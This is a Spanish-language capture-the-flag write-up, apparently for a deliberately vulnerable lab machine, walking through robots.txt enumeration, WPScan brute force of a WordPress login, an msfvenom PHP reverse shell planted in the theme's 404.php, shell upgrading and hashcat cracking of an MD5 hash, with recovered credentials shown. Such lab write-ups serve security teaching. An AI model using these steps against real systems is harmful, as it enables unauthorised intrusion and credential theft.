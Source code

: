 ### 2. Enumeración Web
```bash
curl -s http://10.10.75.121/robots.txt | grep "Disallow"
```
**Hallazgos**:
- `/fsocity.dic` (diccionario con 858k entradas)
- `/key-1-of-3.txt` (primera flag)

## **Análisis de Vulnerabilidades**

### 3. Optimización de Diccionario
```bash
cat fsocity.dic | sort -u | uniq > cleaned_dict.txt
```
**Reducción**: 858k → 11.5k líneas únicas

### 4. Fuerza Bruta con WPScan
```bash
wpscan --url http://10.10.75.121/wp-login.php -U elliot -P cleaned_dict.txt -t 30
```
**Credenciales comprometidas**:
- Usuario: elliot
- Contraseña: ER28-0652

## **Explotación Web**

### 5. Inyección PHP via Editor de Temas
```bash
msfvenom -p php/reverse_php LHOST=10.0.2.15 LPORT=443 -f raw > shell.php
```
**Método de ejecución**:
1. Editar 404.php en Appearance → Theme Editor
2. Acceder a ruta inexistente para trigger

## **Post-Explotación**

### 6. Tratamiento de Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 7. Crackeo de Hash MD5
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
**Resultado**: 
- Hash: c3fcd3d76192e4007dfb496cca67e13b
- Password: abcdefghijklmnopqrstuvwxyz
